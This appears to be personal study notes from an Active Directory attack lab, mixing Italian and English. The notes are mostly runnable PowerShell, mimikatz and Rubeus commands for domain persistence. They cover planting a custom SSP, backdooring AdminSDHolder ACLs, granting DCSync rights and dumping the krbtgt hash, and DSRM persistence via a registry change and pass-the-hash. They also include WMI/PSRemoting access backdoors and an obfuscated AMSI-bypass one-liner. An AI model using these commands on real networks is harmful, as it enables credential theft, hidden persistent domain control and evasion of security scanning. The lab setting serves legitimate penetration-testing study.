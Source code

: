 *tools*
- [samratashok/ADModule: Microsoft signed ActiveDirectory PowerShell module (github.com)](https://github.com/samratashok/ADModule)
- [samratashok/RACE: RACE is a PowerShell module for executing ACL attacks against Windows targets. (github.com)](https://github.com/samratashok/RACE)
- [PowershellMafia/PowerView (github.com)](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### **CUSTOM SSP**
*With MimiKatz*
o uso di mimilib.dll o 
```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```
### **ACLs – AdminSDHolder**
Modifica le acl per aggiungerti il permesso di full control sull'user
*Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA*
```PowerView
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights All -Verbose
```
*Using ActiveDirectory Module and Set-ADACL*
```AD_module
Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,D C=local' -Principal student1 -Verbose
```
*Use of race toolkit*
```AD_module
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
```


### **ACLs – Right Abuse**
*Add FullControl rights*
Usando powershell
```Powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' - PrincipalSamAccountName student1 -Rights All -Verbose
```
Using ActiveDirectory Module and Set-ADACL
```AD_module
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose
```
*Add rights for DCSync*
usando powershell
```Powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' - PrincipalSamAccountName student1 -Rights DCSync -Verbose
```
Using ActiveDirectory Module and Set-ADACL
```AD_module
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -GUIDRight DCSync -Verbose
```
Poi avvia DCSync  con mimikatz
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### **DC persistence by abusing the DSRM service.**
Firtsly dump the hashes from the dc
Open a session on the dc
```powershell
. C:\AD\Tools\Invoke-Mimi.ps1
```
```powershell
Invoke-Mimi -Command '"sekurlsa::pth /user:<ADMIN USER> /domain:<DOMAIN> /ntlm:<HASH> /run:cmd.exe"'
```
or using Rubeus
```cmd
C:\AD\Tools\Rubeus.exe asktgt /user:<ADMIN USER> /aes256:>aes256 HASH> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
Launch Invishell e establish the session
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
```powershell
$sess = New-PSSession dcorp-dc
```
Bypass the AMSI
```powershell
Enter-PSSession -Session $sess
```
```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
```powershell
exit
```
Load and launch Invoke-Mimi
```powershell
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
```
```powershell
Enter-PSSession -Session $sess
```
```powershell
Invoke-Mimi -Command '"token::elevate" "lsadump::sam"'
```
The DSRM administrator is not allowed to logon to the DC from network. So we need to change the logon behavior for the account by modifying registry on the DC
```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```
![[Pasted image 20231025115059.png]]
Now from the attack box we can simply pas the hash and use the dsrm administrator session
```powershell
Invoke-Mimi -Command '"sekurlsa::pth /domain:<MACCHINA> /user:Administrator /ntlm:<HASH> /run:powershell.exe"'
```
```powershell
ls \\<MACCHINA>\c$
```


### **Grant remote access to a stupid user**
Once we have administrative privileges on a machine, we can modify security descriptors of services to access the services without administrative privileges.
Open a session with invoke-mimi or rubeus and launch invishell.
import the RACE.ps1 module
```powershell
. C:\AD\Tools\RACE.ps1
```
And modify the service
```powershell
Set-RemoteWMI -SamAccountName student115 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```
![[Pasted image 20231025144401.png]]
Now we granted the acces to us
```powershell
gwmi -class win32_operatingsystem -ComputerName dcorp-dc
```
![[Pasted image 20231025144606.png]]
___
We can do the same but with powershell. After opened the session and imported
```powershell
. C:\AD\Tools\RACE.ps1
```
```powershell
Set-RemotePSRemoting -SamAccountName student115 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
```
To check if the command worked
```powershell
Invoke-Command -ScriptBlock{whoami} -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
![[Pasted image 20231025145545.png]]
